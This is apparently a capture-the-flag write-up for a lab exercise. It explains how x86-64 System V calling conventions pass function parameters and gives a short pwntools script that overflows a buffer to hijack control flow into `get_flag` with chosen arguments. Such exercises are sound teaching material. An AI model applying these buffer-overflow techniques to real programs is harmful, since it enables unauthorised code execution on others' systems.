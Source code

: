 This problem is mostly about learning how function parameters are passed. You
should already know how to get to `get_flag` from previous problems. Once you
get to the function, you need to also have the proper parameters. Linux binaries
follow System V calling conventions. Its important to remember that these are
only conventions, and functions don't have to follow them (but any binary
produced by a sensible compiler will). The first 6 integer/pointer parameters
are passed in `rdi`,`rsi`,`rdx`,`rcx`,`r8`,`r9` in that order. Any more
parameters are pushed onto the stack, to be popped by the function that is being
called.

```python
p = process('params')
# buffer overflow to jump to get_flag
payload = flat({72: e.sym['get_flag']})
p.sendline(payload)
p.sendline('0') # junk value
p.sendline('0') # junk value
p.sendline(str(4)) # param 4
p.sendline(str(0xdeadbeef)) # param 3
p.sendline(str(0xcafebabe)) # param 2
p.sendline(str(0x1337)) # param 1
```

[Further Reading: https://stackoverflow.com/questions/2535989/what-are-the-calling-conventions-for-unix-linux-system-calls-and-user-space-f](https://stackoverflow.com/questions/2535989/what-are-the-calling-conventions-for-unix-linux-system-calls-and-user-space-f)

[Wikipedia Link:
https://en.wikipedia.org/wiki/X86_calling_conventions](https://en.wikipedia.org/wiki/X86_calling_conventions#System_V_AMD64_ABI)
